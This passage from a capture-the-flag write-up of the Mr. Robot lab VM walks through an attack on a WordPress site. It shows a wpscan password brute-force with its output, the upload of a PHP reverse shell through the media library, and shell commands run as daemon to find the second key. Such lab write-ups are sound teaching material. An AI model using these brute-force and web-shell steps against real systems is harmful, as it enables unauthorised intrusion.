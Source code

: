 ``` 
sort fsocity.dic | uniq | wc -l
11451
```

A little over 11k, much more promising! I created a new file without the duplicates: <code>sort fsocity.dic | uniq > fsociety.txt</code>.

The next step was to visit http://192.168.217.145/wp-login.php and try to gather more information. Bogus login attempts triggered the message: ERROR: Invalid username. Next, I looked in the source to see how form parameters look like:

{% img center /images/pentest/mr-robot/wplogin.png 'wplogin' 'wplogin' %}

It seemed I would have to bruteforce for both username and password, but I tried a few character names from the series first, and that's how I found that elliot is a valid user. With this, I used wpscan to perform the bruteforce attack for the password:

``` 
wpscan --url http://192.168.217.145/ --wordlist ~/Downloads/fsociety.txt --username elliot
[...]
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : elliot Password : ER28-0652                                                                                                  

  Brute Forcing 'elliot' Time: 00:02:27 <==================================                                    > (5640 / 11452) 49.24%  ETA: 00:02:32
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+
```

Excellent, wpscan found the password is *ER28-0652*! I logged in and noticed that all the plugins are outdated:

{% img center /images/pentest/mr-robot/plugins.png 'wp plugins' 'wp plugins' %}

I tried uploading a PHP reverse shell as plugin, but got an error that it couldn't install it. I looked in other places where I could upload it, and when browsing the Media tab, I noticed my shell was there :O

{% img center /images/pentest/mr-robot/media.png 'media library' 'media library' %}

Wasn't sure where it placed in, so I just tried adding shell.php to the URL, and Wordpress kindly gave me the correct path to it, which was http://192.168.217.145/wp-content/uploads/2017/07/shell.php

## Flag #2

Finally achieved presence on the machine:

``` 
$ whoami
daemon
$ ls /home
robot
$ ls -la /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
